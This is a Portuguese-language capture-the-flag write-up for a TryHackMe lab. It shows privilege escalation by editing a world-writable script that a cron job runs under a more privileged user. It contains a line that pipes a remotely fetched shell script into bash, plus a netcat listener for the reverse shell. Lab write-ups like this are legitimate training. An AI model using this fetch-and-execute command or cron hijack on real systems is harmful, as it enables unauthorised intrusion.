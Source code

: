 🚀 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário '👑 `swagger`'

### Situação:
- Existe um arquivo chamado `📜`script.sh`` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-`swagger` user-`swagger` 184 Jun 1 2023 `script.sh`
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário '👑 `swagger`'**, que tem mais privilégios que o usuário atual (`👤 `www-data``).

### Problema:
- Estamos logados como `👤 `www-data``, um usuário limitado.
- Executar o script manualmente com `👤 `www-data`` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `👤 `www-data``.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei privilégio do meu próprio usuário e consegui, mas não saí do próprio 👤 `www-data`.

### Solução:
1. Editar o 📜 script.sh e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   📡 `  curl http://192.168.100.168:8000/shell_2.sh | bash  `
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `👑 `swagger``, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do '👑 `swagger`' executa o script que você editou**.

---

### Agora vamos alterar o conteúdo do arquivo e colocá-lo para buscar naquele mesmo servidor Python, baixar e executar o comando do arquivo dentro do bash, enquanto escutamos do outro lado com o NC.
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell. Agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que alteramos para enviar o cmd shell.
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)

- Temos duas shells ativas agora: uma do 👤 `www-data` que era fraca e não possuía muitos privilégios, e a do 👑 `swagger` que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)

# Depois de explorar como 👑 `swagger` Encontramos um arquivo com permissão 775 
![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

Conteúdo do .backup:
```txt
#!/bin/bash
##### Script em desenvolvimento visualizar containers ######
###########################################################
######## verificando containers em execução ###############
docker ps
a=$(`docker ps` | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
🔍 `docker inspect` $a
```
- Aparentemente tem um docker na maquina

# Escalando para 🛡️ `root`
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# 🖥️ `bash -li` (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
Agora é só ser feliz.

🐳 `docker ps` / 🔍 `docker inspect`
![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
🏁 **Flag Root** 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)

